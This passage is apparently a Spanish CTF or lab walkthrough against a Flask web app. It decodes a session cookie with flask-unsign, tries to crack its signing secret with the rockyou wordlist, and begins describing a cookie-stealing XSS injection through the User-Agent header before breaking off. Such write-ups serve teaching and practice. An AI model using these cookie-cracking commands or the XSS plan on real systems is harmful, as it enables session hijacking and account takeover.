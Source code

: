 Acción: Decodificación de la cookie utilizando `flask-unsign`.

```Shell
python3 -m venv venv 
source venv/bin/activate
pip install flask-unsign
flask-unsign --decode --cookie 'InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs'
```

Resultado:

```Shell
user
```

Explicación: Se ha logrado decodificar la cookie y obtener el nombre de usuario asociado a la sesión.

---

## Paso 3 - Intento de desencriptación de la cookie

Acción: Intento de desencriptar la cookie con un diccionario de contraseñas.

```Shell
flask-unsign --unsign --cookie 'InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs' --wordlist /usr/share/wordlists/rockyou.txt
```

Resultado:

```Shell
FlaskUnsignException: Secret must be a string-type (bytes, str) and received 'int'.
```

Explicación: Esto indica que el valor de la clave secreta no se interpreta correctamente como una cadena de texto, sino como un valor entero (int). Puede suceder si la clave contiene caracteres que el `flask-unsign` no puede procesar correctamente.

Solución:

```Shell
flask-unsign --unsign --cookie 'InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs' --wordlist /usr/share/wordlists/rockyou.txt --no-literal-eval
```

Explicación: Con esta opción, evitamos que el script procese de manera incorrecta los caracteres no válidos.

**Nota:** para este caso este recurso no logro dar con el resultado, por lo que probamos otro lugar donde introducir nuestro payload

---

## Paso 4 - Inyección XSS en el campo User-Agent

Acción: Uso de un comando JavaScript para interceptar las cookies. Se inserta el script malicioso en el campo `User-Agent`, donde se detectó la vulnerabilidad **XSS**. Importante comprobar previamente el campo exacto y la url donde se produce la exposición o la vulnerabilidad
